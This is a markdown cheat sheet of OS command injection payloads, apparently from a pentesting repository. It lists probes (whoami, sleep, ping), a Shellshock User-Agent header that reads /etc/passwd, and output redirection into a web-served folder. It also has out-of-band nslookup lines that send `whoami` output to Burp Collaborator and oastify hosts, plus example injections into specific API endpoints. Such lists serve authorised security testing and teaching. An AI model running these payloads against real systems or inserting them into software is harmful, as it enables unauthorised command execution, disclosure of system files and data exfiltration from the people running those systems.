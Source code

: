 # OS Command Injection Payloads
___
## Wordlist
```sh
;whoami;
;sleep+10;
nslookup+burpcollaborator.net
|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1
```
## Simple Case
```sh
& echo test &

& whoami #

;ls

;ls;

User-Agent: () { :; }; echo ; /bin/bash -c "cat /etc/passwd" >> In User-Agent Header.
```
## Blind injection
Example:  name=test&email=```;sleep 5;```&message=test or, name=test&email=```||sleep 5||```&message=test
```sh
; sleep 10 ||

& sleep 10 #

; sleep 10 ;

asd||sleep 5|| >> Middle of two parameter.

||ping+-c+10+127.0.0.1||

& ping -c 10 127.0.0.1

asd||sleep 5 # >> Last parameter or to comment out extra parameter
```
## Blind injection with output redirection
If you identified a blind Command Injection try to find a writable folder to read your output. Suppose, if a application serves it's images for the product catalog from location like ```/image?filename=22.jpg```, you can redirect the output from the injected command to a file in this ```images``` folder, and then use this URL to retrieve the contents of the file.
```sql
& whoami > /var/www/images/output.txt #
; whoami > /var/www/images/output.txt ;
```
Now, you can read content like this ```/image?filename=output.txt```

## Out of band
```sh
||nslookup x.vyx05udastzq6llyo3y9vqiswj2aq3vrk.oastify.com||

& nslookup x.burpcollaborator.net #

& nslookup `whoami`.xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #

& nslookup $(whoami).xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #

|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1

Example-01: /api/v1/pdf/generate_zip?seed_id=521b62f5b7132de722027388|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1

Example-02: https://api.seedr.ru/uploads/521b62f5b7132de722027388|nslookup -q=cname 0vwm3493ytajvrc4a2g7ptfmgdm7a04o0crzhn6.burpcollaborator.net.&.zip

Example-03: email=a@a.com|nslookup -q=cname 6dkbk5sl74e1lw093edka1x3buhl5g34s.oastify.com.&.zip
```
